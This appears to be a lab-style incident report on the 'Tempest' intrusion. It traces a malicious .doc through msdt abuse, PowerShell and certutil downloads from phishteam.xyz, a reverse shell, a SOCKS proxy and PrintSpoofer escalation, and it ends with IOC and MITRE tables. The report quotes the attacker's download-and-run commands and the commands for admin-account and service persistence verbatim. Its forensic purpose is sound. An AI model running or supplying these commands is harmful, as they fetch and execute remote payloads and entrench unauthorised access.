






# Tempest

**Tempest Incident Report**

**Indices:**

1. **Briefing**
2. **Analysis**
    1. Initial Access
    2. Discovery
    3. Privilege Escalation
    4. Action on Objectives
3. **IOCs**
4. **Timeline**
5. **MITRE ATT&CK Mapping**

**1.Briefing :**

As reported by the SOC analyst, the intrusion started from a malicious document. In

addition, the analyst compiled the essential information generated by the alert as listed

below:

- The malicious document has a .doc extension.
- The user downloaded the malicious document via chrome.exe.
- The malicious document then executed a chain of commands to attain code execution

**2.Analysis :**

A) Initial Access

First, we start by turning Events into CSV Data type to be read by TimeLine Viewer .

Now we filter for .doc and found the file free_magicules.doc with process id : 496 and

SHA256=E25F32401FD3D25958B8B99F280F0325B232E54F185CC5D6E0710923005AC64A

And we find the infected machine and user

User: benimaru

Machine: TEMPEST

now we use the process id to search for what it does using also event ID 1 (Sysmon-Process creation)

we find multiple commands among them this command which is base64 with pid 2628 and is :

$app=[Environment]::GetFolderPath('ApplicationData');cd "$app\Microsoft\Windows\Start Menu\Programs\Startup"; iwr hxxp[://]phishteam[.]xyz/02dcf07/update[.]zip -outfile update[.]zip; Expand-Archive .\update[.]zip -DestinationPath .; rm update[.]zip;

Which downloads a file called update.zip at the startup folder and is extracted to update.lnk

By using Event ID 22 (Sysmon-DNS query) we find it querying the ip for the domain in the link

Mal IP : 167[.]71[.]199[.]191 / phishteam[.]xyz

We use the Malicious domain to search for other malicious processes

Which allows us to see a command getting executed which turns out to be the update.lnk

C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe' C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe

New files hash : SHA256: CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8

And we see other files downloaded

Final.exe – spf.exe – ch.exe

Using Final.exe as a search we find this:

These commands indicate that there is someone connected to the system

After searching we find that there is a server dedicated to the C2

Ip: 167[.]71[.]222[.]162 Domain : resolvecyber[.]xyz

Now we move to wire shark and by using this filter (ip.addr ==167.71.199.191|| ip.addr == 167.71.222.162 ) && http

we can find every packet related to the attack

we find also the attacker uses reverse shell and parameter q to query command output in a get request to the C2 server and the outputs are base 64

B) Discovery

We analyze the command and we find

- The attacker was able to discover a sensitive file inside the machine of the user
- The attacker then enumerated the list of listening ports inside the machine
- The attacker then established a reverse socks proxy to access the internal services hosted inside the machine

> 
> 

We deduce it is ch.exe because after installing it the connection changed to port 8080

- The attacker then used the harvested credentials from the machine

C) Privilege escalation

After the socks the attacker downloads spf.exe then final.exe

Spf.exe HASH SHA256 : 8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D

Which is called printspoofer The tool exploits a specific privilege owned by the user SeImpersonatePrivilege

D) Action on Objectives

Going back to the executed commands by final.exe we find

> Upon achieving SYSTEM access, the attacker then created two users shion,shuna
> 
> 
> The attacker added one of the accounts in the local administrator's group
> 
> net localgroup administrators /add shion
> 
> After the account creation, the attacker executed a technique to establish persistent administrative access
> 
> C:\Windows\system32\sc.exe \\TEMPEST create TempestUpdate2 binpath= C:\ProgramData\final.exe start= auto
> 

**3.IOCs :**

| **IOC Type** | **Indicator** | **Description** |
| --- | --- | --- |
| **File Hash (SHA256)** | **E25F32401FD3D25958B8B99F280F0325B232E54F185CC5D6E0710923005AC64A** | **Malicious starting document (free_magicules.doc).** |
| **File Hash (SHA256)** | **CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8** | **New file downloaded via PowerShell (associated with first.exe / update.lnk execution).** |
| **File Hash (SHA256)** | **8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D** | **PrintSpoofer privilege escalation payload (spf.exe).** |
| **IP Address** | **167[.]71[.]199[.]191** | **Malicious IP used for hosting the initial stage payloads.** |
| **IP Address** | **167[.]71[.]222[.]162** | **Dedicated Command and Control (C2) server IP.** |
| **Domain** | **phishteam[.]xyz** | **Domain used to host malicious payloads (update.zip, final.exe, spf.exe, ch.exe, first.exe).** |
| **Domain** | **resolvecyber[.]xyz** | **Command and Control (C2) domain used for reverse shell beaconing.** |
| **URL** | **hxxp[://]phishteam[.]xyz/02dcf07/update[.]zip** | **Initial payload download URL hardcoded in the free_magicules.doc exploit.** |
| **URL** | **[http://phishteam.xyz/02dcf07/first.exe](http://phishteam.xyz/02dcf07/first.exe)** | **URL used to download the first.exe payload.** |
| **URL** | **[http://phishteam.xyz/02dcf07/final.exe](http://phishteam.xyz/02dcf07/final.exe)** | **URL used to download the final.exe payload.** |
| **URL** | **[http://phishteam.xyz/02dcf07/spf.exe](http://phishteam.xyz/02dcf07/spf.exe)** | **URL used to download the spf.exe (PrintSpoofer) payload.** |
| **URL** | **[http://phishteam.xyz/02dcf07/ch.exe](http://phishteam.xyz/02dcf07/ch.exe)** | **URL used to download the ch.exe (SOCKS proxy) payload.** |
| **File Path** | **C:\ProgramData\final.exe** | **Execution path of the persistent payload.** |
| **File Path** | **C:\Users\Public\Downloads\first.exe** | **Execution path of the first.exe payload.** |
| **File Path** | **C:\Users\benimaru\Downloads\ch.exe** | **Execution path of the ch.exe proxy tool.** |
| **Host Artifact** | **TempestUpdate2** | **Malicious Windows Service created to ensure persistent execution of final.exe.** |
| **Host Artifact** | **shion, shuna** | **Illegitimate local user accounts created by the attacker; shion was added to the local administrators group.** |

**4.Timeline :**

The attack progressed through the following sequential stages:

1. Initial Compromise: The user benimaru downloaded the malicious file free_magicules.doc using Google Chrome and executed it.
2. Exploitation & Code Execution: Upon opening the document, the Microsoft Support Diagnostic Tool (msdt.exe) was exploited to run a Base64-obfuscated PowerShell command.
3. Stage 1 Persistence: The PowerShell script downloaded update.zip from phishteam[.]xyz and extracted update.lnk directly into the user's Startup folder.
4. C2 Initialization: The update.lnk file executed certutil to download first.exe to the Public Downloads folder, establishing a reverse shell connection via HTTP GET requests to resolvecyber[.]xyz.
5. Discovery Phase: The attacker used the initial shell to discover a sensitive file on the machine and enumerate listening network ports.
6. Network Proxy Setup: The attacker downloaded and executed ch.exe, establishing a reverse SOCKS proxy connection on port 8080 to route traffic into the internal network.
7. Privilege Escalation: The attacker downloaded spf.exe (a PrintSpoofer payload) to exploit SeImpersonatePrivilege, elevating their access rights to SYSTEM level.
8. Action on Objectives (Account Manipulation): Using their elevated privileges, the attacker created two new local accounts (shion and shuna), changed the default Administrator password, and added the shion account to the local administrators group.
9. Stage 2 Persistence: To solidify administrative control, the attacker downloaded final.exe to C:\ProgramData\ and utilized sc.exe to create a persistent auto-starting Windows service named TempestUpdate2 pointing to the executable.

**5.MITRE ATT&CK Mapping :**

| **Tactic** | **Technique ID** | **Technique Name** | **Observation & Evidence** |
| --- | --- | --- | --- |
| **Initial Access** | T1566.001 | Phishing: Spearphishing Attachment | The user benimaru downloaded and executed a malicious document (free_magicules.doc) via Chrome. |
| **Execution** | T1059.001 | Command and Scripting Interpreter: PowerShell | The attacker utilized Base64-encoded PowerShell scripts to download and execute payloads. |
| **Execution** | T1203 | Exploitation for Client Execution | The malicious document abused msdt.exe to execute arbitrary code. |
| **Persistence** | T1547.001 | Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder | A payload (update.lnk) was extracted to the \Start Menu\Programs\Startup directory to maintain access. |
| **Persistence** | T1136.001 | Create Account: Local Account | The attacker created new local user accounts named shion and shuna. |
| **Persistence** | T1543.003 | Create or Modify System Process: Windows Service | A service named TempestUpdate2 was created using sc.exe to automatically start final.exe. |
| **Privilege Escalation** | T1134.001 | Access Token Manipulation: Token Impersonation/Theft | The attacker executed spf.exe (PrintSpoofer) to exploit SeImpersonatePrivilege and achieve SYSTEM access. |
| **Defense Evasion** | T1218 | System Binary Proxy Execution | Legitimate binaries like msdt.exe and certutil.exe were abused to proxy the execution of malicious commands and download payloads. |
| **Discovery** | T1046 | Network Service Discovery | The attacker enumerated the list of listening ports inside the compromised machine. |
| **Discovery** | T1083 | File and Directory Discovery | The attacker explored the system and discovered a sensitive file. |
| **Command and Control** | T1071.001 | Application Layer Protocol: Web Protocols | The attacker established a reverse shell using HTTP GET requests to resolvecyber[.]xyz, encoding command outputs in Base64 within the URL parameters. |
| **Command and Control** | T1090.002 | Proxy: External Proxy | The attacker executed ch.exe to establish a reverse SOCKS proxy to 167.71.199.191:8080 to access internal services. |
| **Command and Control** | T1105 | Ingress Tool Transfer | The attacker actively downloaded several tools (first.exe, spf.exe, final.exe, ch.exe) from the C2 server. |
